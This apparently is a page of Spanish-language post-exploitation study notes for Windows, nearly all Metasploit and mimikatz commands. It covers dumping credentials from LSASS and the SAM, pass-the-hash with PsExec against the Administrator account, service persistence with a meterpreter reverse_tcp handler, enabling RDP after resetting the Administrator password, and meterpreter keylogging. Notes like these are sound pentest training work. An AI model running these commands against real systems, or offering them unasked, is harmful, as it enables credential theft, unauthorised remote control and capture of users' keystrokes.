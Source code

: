 ```bash
sekurlsa::logonpasswords
lsadump::sam
```

- Pass The Hass - **PTH** con **PsExec**
```bash
pgrep lsass
migrate "pid lsass"
getsystem
hashdump
search psexec
use scanner/smb/smb_login
set SMBUser Administrator (O la cuenta más privilegiada)
set SMBPass NTLM:HASH --> Hash NTLM puede ser la clear pass
exploit
```

- **Persistence** in windows
```bash
search type:exploit platform:windows persistence
use windows/local/persistence/service
set session 1
exploit
#Si pone qu eno soporta un payload staged se lo cmabiamos por "windows/meterpreter/reverse_tcp"

# Si borrramos las sesiones
use multi/handler
set lport --> el mismo que en el módulo de persistencia
set lhost eth1
set payload windows/meterpreter/reverse_tcp --> el mimso paylad que en persistencia
run
```

- Enabling **RDP**
>Utiliza el puerto **3389**

>Se ve en **nmap**  como **ms-wbt-server**

>**Necesitamos autenticación** como user y password

```bash
search platform:windows enable_rdp
use 0
set session 1
exploit
session 1
shell
net user Administrator LecambiamoslaPasswd
# En una terminal 
xfreerdp /u:administrator /p:LecambiamoslaPasswd /v:IP
```

- Windows **Keylogging** - Capturing Keystroke
```bash
# Imprtante migrar a este proceso porque por alguna razón funciona mal en el resto
pgrep explorer
keyscan_start
keyscan_dump
# Si no captura reiniciamos el keylogger y volvemos a dumpear
```
